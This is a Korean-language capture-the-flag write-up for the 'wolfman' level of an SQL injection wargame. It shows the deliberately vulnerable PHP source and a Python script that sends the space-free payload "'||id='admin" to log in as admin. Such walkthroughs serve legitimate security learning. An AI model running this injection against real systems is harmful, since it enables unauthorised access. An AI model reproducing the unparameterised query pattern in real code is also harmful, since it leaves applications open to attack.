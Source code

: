 ## Wolfman Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");  
if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");  
$query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id']) echo "<h2>Hello {$result[id]}</h2>";  
if($result['id'] == 'admin') solve("wolfman");  
highlight_file(__FILE__);  
?>
```

### Exploit 코드
``` python
import requests

url = 'https://los.rubiya.kr/wolfman_4fdc56b75971e41981e3d1e2fbe9b7f7.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params= {}
params['pw'] = "'||id='admin"

res = requests.get(url, cookies=cookies, params=params)
if "Clear" in res.text :
    print("[♪] WOLFMAN Clear!")
```
이번 문제는 id가 admin이면 풀리는 문제이다.
쿼리문을 보면 이미 `id='guest'`로 되어있는데 이를 우회하면 된다.
공백이 필터링 되어 있으니 공백 없이 쓰면 된다.
GET 방식으로 전송되는 pw에 `'||id='admin`을 넣어주면 쿼리문은 아래와 같이 된다.
``` php
select id from prob_wolfman where id='guest' and pw=''||id='admin'
```
id가 admin이므로 문제가 풀린다.
